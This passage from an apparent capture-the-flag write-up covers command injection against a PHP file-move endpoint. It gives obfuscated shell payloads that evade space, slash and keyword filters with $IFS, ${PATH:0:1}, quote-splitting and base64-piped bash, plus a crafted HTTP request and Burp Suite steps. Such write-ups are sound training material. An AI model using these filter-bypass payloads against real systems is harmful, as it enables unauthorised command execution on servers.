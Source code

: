 **Key Discovery:** The `&` operator is **whitelisted** because developers assumed it's required for URL structure.

### Phase 4: Exploitation Development

**Step 9: Parameter Selection**

Both `to` and `from` parameters can be used for injection since they both constitute the command being executed by the backend.

**Step 10: Payload Construction Requirements**

To successfully read `/flag.txt`, we need to bypass:
- **Space filter** - Use `$IFS` or `%09`
- **Slash filter** - Use `${PATH:0:1}`
- **Command detection** - Use quote obfuscation

**Step 11: Payload Development**

**Method 1: Direct Command with Obfuscation**
```bash
# Target command: cat /flag.txt
# Obfuscated: c"a"t /flag.txt
# With bypasses: c"a"t${IFS}${PATH:0:1}flag.txt
# With injection: ${IFS}&c"a"t${IFS}${PATH:0:1}flag.txt
# URL encoded: $IFS%26c"a"t$IFS${PATH:0:1}flag.txt
```

**Method 2: Base64 Encoded Command**
```bash
# Encode command
echo -n 'cat /flag.txt' | base64
# Result: Y2F0IC9mbGFnLnR4dA==

# Create payload
bash<<<$(base64 -d<<<Y2F0IC9mbGFnLnR4dA==)
# With obfuscation: b"a"sh<<<$(base64%09-d<<<Y2F0IC9mbGFnLnR4dA==)
# With injection: ${IFS}&b"a"sh<<<$(base64%09-d<<<Y2F0IC9mbGFnLnR4dA==)
# URL encoded: $IFS%26b"a"sh<<<$(base64%09-d<<<Y2F0IC9mbGFnLnR4dA==)
```

### Phase 5: Exploitation Execution

**Step 12: Burp Suite Setup**

1. **Configure Proxy:** Set FoxyProxy to "BURP" profile
2. **Intercept Request:** Click Move with no destination folder
3. **Send to Repeater:** Use Ctrl+R to send intercepted request

**Step 13: Execute Method 1 (Direct Command)**

**Modified Request:**
```http
GET /index.php?to=tmp$IFS%26c"a"t$IFS${PATH:0:1}flag.txt&from=51459716.txt&finish=1&move=1 HTTP/1.1
```

**Step 14: Execute Method 2 (Base64 Encoded)**
